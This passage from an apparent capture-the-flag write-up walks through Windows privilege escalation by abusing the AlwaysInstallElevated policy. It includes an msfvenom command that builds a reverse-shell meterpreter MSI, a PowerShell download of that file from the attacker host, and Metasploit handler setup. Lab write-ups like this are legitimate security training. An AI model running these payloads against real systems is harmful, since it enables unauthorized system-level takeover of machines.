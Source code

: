 ### Root

By running [winpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) we can see the following:
```console
-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] AlwaysInstallElevated? <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] If '1' then you can install a .msi file with admin privileges ;)
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

```AlwaysInstallElevated``` Policy
As we all are aware that Windows OS comes installed with a Windows Installer engine which is used by MSI packages for the installation of applications. These MSI packages can be installed with elevated privileges for non-admin users

For this purpose, the ```AlwaysInstallElevated``` policy feature is used to install an MSI package file with elevated (system) privileges. This policy is enabled in the Local Group Policy editor; directs the Windows Installer engine to use elevated permissions when it installs any program on the system. This method can make a machine vulnerable posing a high-security risk because a non-administrator user can run installations with elevated privileges and access many secure locations on the computer.

By using the following article [https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/) we can do the following steps to get root:

1. Get meterpreter shell using the following ```msfvenom``` command:
```console
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=1111 -f msi-nouac -o alwe.msi
```

Upload it with our shell using powershell:
```console
c:\>powershell
PS C:\> (New-Object Net.WebClient).DownloadFile("http://10.10.14.14:8000/alwe.msi","c:\Users\Phoebe\Downloads\alwe.msi");
```

Create handle using ```metasploit```:
```console
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.14
LHOST => 10.10.14.14
msf6 exploit(multi/handler) > set LPORT 1111
LPORT => 1111
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.14:1111 
```
